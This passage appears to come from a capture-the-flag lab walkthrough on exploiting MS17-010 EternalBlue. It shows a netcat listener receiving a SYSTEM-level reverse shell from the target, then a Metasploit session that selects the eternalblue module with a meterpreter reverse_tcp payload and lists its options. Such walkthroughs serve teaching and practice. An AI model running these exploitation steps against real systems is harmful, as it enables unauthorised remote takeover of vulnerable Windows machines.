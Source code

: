 It worked and spawned our reverse shell to our ```netcat``` listener

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 6767
listening on [any] 6767 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### MS17-010 Metasploit Exploit

For metasploit exploit, there is no need to worry about dependencies and exploit code

We can simply exploit the ```ms17-010 Eternal Blue``` vulnerability by configuring our remote and listener

```c
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windo
                                             ws 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7
                                             , Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows
```